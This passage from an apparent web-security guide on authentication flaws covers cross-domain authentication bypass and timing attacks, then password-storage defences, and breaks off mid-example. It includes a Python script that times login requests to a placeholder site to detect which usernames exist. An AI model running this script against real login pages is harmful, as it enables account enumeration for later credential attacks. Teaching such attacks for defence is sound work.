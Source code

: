     - **Cross-domain authentication bypass**
      - Exploiting authentication in cross-domain contexts
      - Detection: Test authentication across subdomains
      - Exploitation: Leverage authenticated sessions across domains
  
  - **Exploiting timing attacks**
    - Measure response time variations to extract information
    - Detection: Record and analyze response times
    - Exploitation: Script to automate timing comparisons:
      ```python
      import time
      import requests

      # Example of timing attack on login
      def time_login_attempt(username, password):
          start_time = time.time()
          response = requests.post(
              "https://vulnerable-website.com/login",
              data={"username": username, "password": password}
          )
          end_time = time.time()
          return end_time - start_time, response

      # Compare timing between known-invalid and test username
      invalid_time, _ = time_login_attempt("nonexistent_user", "password123")
      test_time, _ = time_login_attempt("potential_user", "password123")
      
      if test_time - invalid_time > 0.5:  # Significant time difference
          print("Username 'potential_user' likely exists")
      ```

- **Prevention and mitigation**
  
  - **Secure password handling**
    
    - **Strong password policies**
      - Require minimum length (at least 8-12 characters)
      - Encourage passphrases rather than complex character requirements
      - Check against known breached passwords
    
    - **Secure password storage**
      - Use strong adaptive hashing functions (bcrypt, Argon2, PBKDF2)
      - Implement proper salting of passwords
      - Example implementation (Node.js with bcrypt):
        ```javascript
        const bcrypt = require('bcrypt');
        const saltRounds = 12;

        // Hashing a password
        async function hashPassword(password) {
          const hashedPassword = await bcrypt.hash(password, saltRounds);
          return hashedPassword;
        }
